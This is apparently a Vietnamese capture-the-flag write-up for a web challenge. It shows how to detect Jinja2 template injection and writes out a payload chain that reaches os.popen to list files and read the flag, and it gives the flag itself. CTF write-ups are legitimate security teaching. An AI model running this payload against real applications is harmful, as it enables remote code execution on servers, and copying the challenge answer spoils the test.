






# Đề bài 
The hydro dashboard has a friendly little tide report that greets you by name. It is a bit too friendly with what you give it.

Mirror 1: http://18.215.143.250:5001
Mirror 2: http://18.145.136.91:5001
# Solution 
Truy cập challenge ta thấy hint "a friendly little tide report that greets you by name" của tác giả ngay lập tức

Nhận thấy `Tide report for {{ name }}`, nghĩ đễn ngay  `SSTI`. Ta thử với payload là {{7*7}} xem có trả về 49 không

-> Ta có thể áp dụng payload cơ bản của `SSTI` để đạt được `RCE`
Để phân biệt websỉte sử dụng engine gì, ta có thể áp dụng payload cơ bản: `{{7*'7'}}`:
- Trả về `7777777` -> Jinja2
- Báo lỗi -> Twig

-> Payload:
- `{{ __import__('os').popen('cat flag').read() }}`
- `{{ os.popen('cat flag').read() }}`

Đều lỗi hết nên ta phải tìm cách đi con đường vòng để gọi `import`
-> Payload có cấu trúc sau:
`{{self.__init__.__globals__.__builtins__.__import__('os').popen('<command>').read()`

1. Thay `<command>` = `ls` để đọc các file đã có

Trả về các file sau, trong đó có `flag.txt`. Việc bây giờ của ta chỉ cần đọc file là sẽ lấy được flag

2. Thay `<command>` bằng `cat flag.txt`

-> Flag: 
`rstcon{ssti_rolls_in_with_the_t1de}`
